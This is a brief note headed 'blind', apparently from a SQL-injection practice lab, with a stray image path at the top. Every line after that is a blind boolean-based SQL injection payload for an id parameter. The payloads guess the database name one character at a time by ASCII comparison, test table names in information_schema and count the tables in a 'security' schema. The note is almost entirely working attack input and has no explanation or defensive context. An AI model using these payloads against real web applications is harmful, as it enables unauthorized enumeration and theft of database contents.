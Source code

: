 # blind

id=1 and ascii(substring(database(),1,1))>100 --%20

?id=1' and (select table_name from information_schema.tables where table_schema='security' limit 0,1)='emails' --%20    
OR   
?id=1' and ascii(substring((select table_name from information_schema.tables where table_schema='security' limit 0,1)),1,1)>120 --%20

?id=1' and (select count(*) from information_schema.tables where table_schema='security')=3 --%20

